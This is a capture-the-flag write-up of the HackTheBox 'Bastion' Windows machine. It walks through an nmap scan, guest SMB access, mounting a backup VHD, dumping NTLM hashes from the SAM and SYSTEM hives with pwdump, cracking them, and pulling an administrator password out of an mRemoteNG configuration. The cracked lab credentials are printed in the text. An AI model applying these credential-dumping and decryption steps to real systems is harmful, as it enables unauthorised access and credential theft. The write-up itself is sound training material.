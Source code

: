 +++

title = "Bastion-Golden"

+++

Bastion, is a windows machine that has smb, ssh, winrm. We'll find a backup a virtual box back up image a VHD file. Well get our Credentials to login from dumping NTLM-hashes from <mark>Sam, System</mark>. To get root we'll exploit some saved credentials in a configuration file to ssh into. 

**NMAP**

```
# Nmap 7.70 scan initiated Mon May 13 17:33:32 2019 as: nmap -sC -sV -p22,135,139,445,5985,12512 -oA nmap/target 10.10.10.134                                
Nmap scan report for 10.10.10.134
Host is up (0.046s latency).

PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
12512/tcp closed unknown
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows                                                                     

Host script results:
|_clock-skew: mean: -39m52s, deviation: 1h09m14s, median: 5s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-13T23:33:50+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-05-13 17:33:49
|_  start_date: 2019-05-13 15:37:21

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                               
# Nmap done at Mon May 13 17:33:50 2019 -- 1 IP address (1 host up) scanned in 18.08 seconds 
```

**SSH** Nothing here to exploit

**SMB** Guest login is enabled, this is our first way into bastion. Ill Show a couple of ways to use different tools to enumerate SMB shares.

```
smbmap -u guest -H 10.10.10.134 -r /
-u username
-r recursive
```

![smb-map](https://chickenpwny.github.io/images/bastion/smb-map.png)

```
smbclient //10.10.10.134/Backups
```

![smb-client](https://chickenpwny.github.io/images/bastion/smb-client.png)

**CLUES** So we found a clue in notes.txt 

```
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

​	There's back-image's in the SMB share,there a few directories in. 

```
cd "/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/"
```

![smb-backup-imaget](https://chickenpwny.github.io/images/bastion/smb-backup-imaget.png)

We could Download the backup image which will take forever. We can mount the share to <mark> mnt </mark> and inspect the image that way. 

<img src="https://chickenpwny.github.io/images/bastion/thinking.jpg" width="300px" height="300px">

```
mount -o user=guest '//10.10.10.134/Backups' /mnt/bast-vhd 
```

![mount-smb](https://chickenpwny.github.io/images/bastion/mount-smb.png)

  Well, need a Tool to mount the image so we can inspect it. I used <mark>guestmount</mark>. 

```
apt-get install libguestfs-tools
```

  After thats done with could take awhile, well mount the drive and examine it. Make a directory in mount or mnt directory. 

```
mkdir /mnt/bast-vhd
cd "/mnt/bast-vhd/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/"
```

  You may have to use the full path. After some testing well find that <mark>9b9cfbc4</mark>	is our desired image.

```
mkdir /mnt/bast-vhd2
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/bast-vhd2/
```

   Windows stores user Credentials in <mark> SAM & SYSTEM</mark>, it stores them as NTLM hashes. Hashes are cryptographically secure. They only work on way, but that doesn't mean they aren't without faults.  We will be using some pwdrump which is should be reinstalled on kali. 

```
cd /mnt/bast-vhd2/Windows/System32/config
```

![ntlm-system-sam](https://chickenpwny.github.io/images/bastion/ntlm-system-sam.png)

  As mentioned above will be using <mark>PWDump</mark> which will extract the <mark>NTLM</mark> hashes from <mark>SYSTEM</mark> hive and <mark>SAM</mark> hive

```
pwdump SYSTEM SAM
```

![ntlm-hashes](https://chickenpwny.github.io/images/bastion/ntlm-hashes.png)

  Before running off to <mark>HASHCAT</mark> lets try <mark>crackstation.net</mark>, hashcat should be a last resort just to save time. I tried to use hashcat but didn't get anything, i also cut it short but whatever. 

  I would like to take a moment to disgust what a ntlm hash is. Colon's are a delimiter,the first part is the user-name, the next the groupid the user belongs to. notice in the image above the different users have differing id's. Ntlm hashes can store a large password up to 128 characters. they broken into two hashes. 

![ntlm-hashes2](https://chickenpwny.github.io/images/bastion/ntlm-hashes2.png)

![crackstation](https://chickenpwny.github.io/images/bastion/crackstation.png)

**PASSWORD** IS bureaulampje

```
user:	L4mpje
pass:	bureaulampje
```

**SHELL** We could ssh or probably winrm. 

```
ssh L4mpje@10.10.10.134
```

![user](https://chickenpwny.github.io/images/bastion/user.png)

One place to check but is often forgotten about is program files and check both versions. 

![mRemoteNH](https://chickenpwny.github.io/images/bastion/mRemoteNH.png)

**[mRemoteNG](https://www.reddit.com/r/mRemoteNG/comments/66hzoe/mremoteng_password_storage_is_insecure/)** Use to store passwords in clear text, now the credentials are encrypted. 

 We will have to move the files over to our lhost 

go to file > Open connectionFile

![remote2](https://chickenpwny.github.io/images/bastion/remote2.PNG)

now well add this weird external terminal tool feature to extract the passwords. 

Tools > External Tools

you will notice i already have one done but i added quotes and that tripped me up thought it was apart of the password lol. then i check L4mpje and saw the same quote. this will opena  terminal with the password decrypted yes!!

```
display name :	PassWordLookUp
filename :	cmd
arguements :	/k echo %password%
```

![remote3](https://chickenpwny.github.io/images/bastion/remote3.PNG)

right click on DC > external tool >passwordlookup . it should open a cmd prompt. 

![root](https://chickenpwny.github.io/images/bastion/root.PNG)

login into ssh with adminsitrator and the password done.

![pinkie-evil](https://chickenpwny.github.io/images/bastion/pinkie-evil.webp)
